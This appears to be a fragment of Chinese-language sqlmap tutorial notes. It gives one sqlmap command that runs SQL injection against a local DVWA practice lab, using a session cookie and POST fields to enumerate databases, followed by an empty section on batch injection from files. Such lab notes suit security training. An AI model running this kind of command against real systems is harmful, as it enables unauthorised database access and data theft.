 
## 忽略老提示

```php
sqlmap.py -u "http://127.0.0.1:82/dvwa/vulnerabilities/xss_s/" --cookie="security=low; PHPSESSID=cubjjq1a6oieurb2veql3a6pr4" --data="txtName=111&mtxMessage=222&btnSign=Sign+Guestbook" --dbs --batch --smart
```

## 批量处理以文件形式注入
>演示GET和POST的操作放入文本

```php

```
